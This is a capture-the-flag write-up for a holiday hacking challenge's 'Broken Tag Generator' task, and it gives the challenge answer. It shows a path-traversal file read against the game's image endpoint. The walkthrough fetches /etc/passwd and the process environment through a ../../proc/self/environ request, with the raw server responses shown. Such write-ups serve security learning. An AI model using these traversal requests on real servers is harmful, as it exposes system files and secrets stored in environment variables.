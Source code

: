 # 8) Broken Tag Generator
Dificulty: 4/5

![Difficulty](../../img/Dificulty4.png)

Help Noel Boetie fix the Tag Generator (https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

ANSWER: JackFrostWasHere

![Access](8-Broken-Tag-Generator-access.png)

## Finding the vulnerability
After requesting the URL https://tag-generator.kringlecastle.com/image the server sends a hint of the possible vulnerability that is visible in the browser but curl or burp give more information, where we can see this response use `501` http status code.
```
HTTP/1.1 501 Not Implemented
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:22:22 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 80
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: ID is missing!</p>
```

Next request, lets attempt a LFI on the `id` parameter using a well-known file `/etc/passwd`, the request failed but the error message is different, this time the server sends a `404` not found with the message route not found in `/app/lib/app.rb`.
```
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:24:33 GMT
Content-Type: image/jpeg
Content-Length: 81
Connection: close
X-Content-Type-Options: nosniff

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
```

This means that the application may prepend a fixed string to our request so let's improve our previous request with a path traversal.
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:30:00 GMT
Content-Type: image/jpeg
Content-Length: 966
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
```

Now we know that it sucessfully retrieves files from the file system, the target is to obtain the value of the `GREETZ` environmental variable. To get all environmental variables of the runnin process we can send the request to `https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ`
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:33:44 GMT
Content-Type: image/jpeg
Content-Length: 399
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=cbf2810b7573 RUBY_MAJOR=2.7 RUBY_VERSION=2.7.0 RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343 GEM_HOME=/usr/local/bundle BUNDLE_SILENCE_ROOT_WARNING=1 BUNDLE_APP_CONFIG=/usr/local/bundle APP_HOME=/app PORT=4141 HOST=0.0.0.0 GREETZ=JackFrostWasHere HOME=/home/app 
```

ANSWER: JackFrostWasHere